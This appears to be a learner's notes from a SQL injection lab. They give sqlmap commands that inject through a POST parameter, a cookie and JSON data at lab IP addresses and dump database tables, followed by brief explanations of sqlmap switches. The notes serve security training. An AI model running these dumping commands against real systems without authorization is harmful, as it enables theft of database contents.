 **Running SQLMap on an HTTP Request exercises:**

 - Detect and exploit SQLi vulnerability in POST parameter `id`

`sqlmap -u "94.237.59.185:32382/case2.php" --data 'id=1' --batch --dump`

 - Detect and exploit SQLi vulnerability in Cookie value `id=1`

`sqlmap sqlmap -u http://94.237.59.206:52596/case3.php --cookie="id=*" --batch --dump`

(will also work with one sqlmap hmm)

 - Detect and exploit SQLi vulnerability in JSON data `{"id": 1}`

***💡 Need to capture a request in burpsuite for this!!!***

`sqlmap -r req.txt --batch --dump`

**Info on switches:**

- `--batch` is defined in the command, the tool uses a default value to proceed without asking the user.

- `--dump` will tell SQLmap to grab all the data from the  table and display it (Noice eh?)

- One is doing a permanent delete of the session (`--flush-session`),

- the other is ignoring the session (`--fresh-queries`). You should not use them together because it doesn't make any sense to do that

- `--crawl` Lets Sqlmap look for parameters to inject

- `--parse-errors`  parse the DBMS errors (if any) and displays them as part of the program run

- `-t /tmp/traffic.txt`   (or any file name of your choosing) - This will store all sent and received HTTP requests in the specified file.

- `-v` Verbosity option
